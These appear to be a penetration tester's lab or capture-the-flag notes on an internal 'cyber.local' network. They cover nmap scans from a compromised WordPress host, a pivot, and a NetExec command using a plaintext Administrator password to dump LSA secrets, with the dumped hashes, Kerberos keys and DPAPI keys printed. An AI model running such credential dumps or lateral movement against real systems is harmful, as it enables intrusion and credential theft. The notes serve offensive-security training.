


Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.12
./nmap -F 10.9.10.12

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:39 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.12
Host is up (0.00066s latency).
Not shown: 240 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  epmap
443/tcp  open  https
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
443/tcp   open  https?        syn-ack ttl 64
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=cywap.cyber.local
| Issuer: commonName=cywap.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:42:26
| Not valid after:  2024-12-13T09:42:26
| MD5:   ec96:d511:74e0:0194:ef46:6d2d:2bb1:2d95
| SHA-1: e482:edf9:1c4a:c654:65bc:3591:652e:dfdb:584e:b3b4
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQNAB2/B/iHKBA7H5k6sKmeDANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFjeXdhcC5jeWJlci5sb2NhbDAeFw0yNDA2MTMwOTQyMjZaFw0y
| NDEyMTMwOTQyMjZaMBwxGjAYBgNVBAMTEWN5d2FwLmN5YmVyLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1ID9l9r+i9k0Qzf3e0MWxjlQlv+s
| S6/8smyP5U/HBocmr8guuOUKQZesUKjdmZ4y+7lHz+oflqv0sqVg/eKdqiA6187L
| Sa2rt63o8MjVMGEwxevCLFJu9UGpLXDsXdT3WynG2d2p7bPKl3ZthEy16RSxNLCh
| WgMMqm3jg4lUutDB6lzMn6SYhI/yGXcHUNfdURPC2+m1QDVFx3YUJ1pQmVXtOF5/
| SSxb9jwdRJPx5o2IenQ9OEV2W1xUEurqdojKXCztfLTpj78hfcuhwyA2eJYXaBBd
| cism1QGZT75vola2Z3o003jL3R48ThTZhzo4Nl2wcbtvVaMDFfjpw5kRkwIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAMzsa7fT4cxuI/4knrUINOluMiUhqAWoJFn1Hhatqa8c0vrW2FL8
| afbmQ/lVavO8a/eqHFxJwTXpuwGc1fHjMwC9FnLSap/4VuqhCplcAFFId5IXX+ab
| PFt9+G5z5MX3QXLvBsBBBVm7Zeume94spXUnBFeRSY+yC1qYCOn8xEjnCNk1ZuD0
| gibuF8M37B3ygSSbVJQO3qx1gasBo/YvlhkhJ78buRegSxagUDI949TcnrjC1mQN
| NY2A4mxh9HMOHC/vBhPpBmhf55pcGlmi8UbfU+E9Pjv1HZMGmKnQMI9jp1csgWpx
| 4JR1xvJrnw6z6WtMWP+39T30ZNzOpgFfiCw=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:37:55+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49443/tcp open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
56941/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
```

&nbsp;

# Post Exploitation

I will run a LSASS secrets dump:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.12 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.12      445    CYWAP            [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYWAP) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.12      445    CYWAP            [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.12      445    CYWAP            [+] Dumping LSA secrets
SMB         10.9.10.12      445    CYWAP            CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-06-19 20:38:53)
SMB         10.9.10.12      445    CYWAP            CYBER\CYWAP$:aes256-cts-hmac-sha1-96:be380d7eb5bf1bc9a7c95bb731e352d10a98368591a108d35f84fc2f50aac420
SMB         10.9.10.12      445    CYWAP            CYBER\CYWAP$:aes128-cts-hmac-sha1-96:1697fb38bc6f7dbb220409c41a6ef7ae
SMB         10.9.10.12      445    CYWAP            CYBER\CYWAP$:des-cbc-md5:8c5d403d430b4375
SMB         10.9.10.12      445    CYWAP            CYBER\CYWAP$:plain_password_hex:380025003b0021002700380066007400500071006c003a003300550022002d003a00300076006200710072002e00780029003f00410057003e003b003400630026005100780054006e0054007a003300640051005d00410046002a003600340070005b0071005900530023005e003500310034006e0046007200260044004700620063002500780076003b004d004e005f00460053003b002d004c003d006400200050003100350033003500720073003c0062004b006d0046004e004800300050007100350077006b005100220022005e005f00320077006c00550034002e0039006a0070004d007400710033003d00
SMB         10.9.10.12      445    CYWAP            CYBER\CYWAP$:aad3b435b51404eeaad3b435b51404ee:22e7f6a449c16599d467c42233c31fa1:::
SMB         10.9.10.12      445    CYWAP            dpapi_machinekey:0xe4931f9be49dd872adb3c4123a917060349660ab
dpapi_userkey:0x78de451b9874e5ffeff4d2a43e72b529bc1db766
SMB         10.9.10.12      445    CYWAP            NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.10.12      445    CYWAP            [+] Dumped 8 LSA secrets to /root/.nxc/logs/CYWAP_10.9.10.12_2024-06-19_224330.secrets and /root/.nxc/logs/CYWAP_10.9.10.12_2024-06-19_224330.cached
```

Apparently I don't see any flag saved anywhere...

Now seems like no flags are saved locally but I see that this is the RDS!



Specifically I need to understand which machines stores apps, gateway and jenkins

```
PS C:\Users\administrator.CYBER> ping jenkins.cyber.local

Pinging jenkins.cyber.local [10.9.30.12] with 32 bytes of data:
Reply from 10.9.30.12: bytes=32 time=1ms TTL=127
Reply from 10.9.30.12: bytes=32 time<1ms TTL=127
Reply from 10.9.30.12: bytes=32 time<1ms TTL=127
Reply from 10.9.30.12: bytes=32 time<1ms TTL=127

Ping statistics for 10.9.30.12:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
PS C:\Users\administrator.CYBER> ping apps.cyber.local

Pinging apps.cyber.local [10.9.10.18] with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 10.9.10.18:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
PS C:\Users\administrator.CYBER> ping gateway.cyber.local

Pinging gateway.cyber.local [10.9.10.17] with 32 bytes of data:
Reply from 10.9.10.17: bytes=32 time=1ms TTL=128
Reply from 10.9.10.17: bytes=32 time<1ms TTL=128
Reply from 10.9.10.17: bytes=32 time<1ms TTL=128
Reply from 10.9.10.17: bytes=32 time<1ms TTL=128

Ping statistics for 10.9.10.17:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
PS C:\Users\administrator.CYBER>
```

Seems like jenkins runs on this machine?

&nbsp;